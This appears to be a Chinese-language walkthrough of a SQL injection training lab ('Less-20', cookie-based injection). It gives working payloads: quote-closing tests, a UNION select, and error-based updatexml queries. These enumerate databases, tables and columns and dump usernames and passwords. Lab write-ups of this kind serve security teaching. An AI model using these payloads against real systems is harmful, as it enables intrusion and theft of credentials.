








# Less - 20

---

# 通关教程

---

## 1、判断闭合

---

返回了输入的name和password，并提示使用cookie

​​

修改cookie的值如下

```html
uname=admin'#
```

​​

回显位置如下

​​

---

## 2、查看当前数据库

---

```html
uname=' union select database(),2,3#
```

​​

---

## 3、查看数据库名

---

```html
 uname=' and updatexml(1,concat(0x7e,(select group_concat(schema_name) from information_schema.schemata limit 0,1),0x7e),1)#
```

​​

---

## 4、查看数据表名

---

```html
uname=' and updatexml(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema='security' limit 0,1),0x7e),1)#
```

​​

---

## 5、查看字段名

---

```html
uname=' and updatexml(1,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_name='users' limit 0,1),0x7e),1)#
```

​​

---

## 6、查看字段值

---

```html
 uname=' and updatexml(1,concat(0x7e,(select group_concat(username,password) from security.users  limit 0,1),0x7e),1)#
```

​​

‍
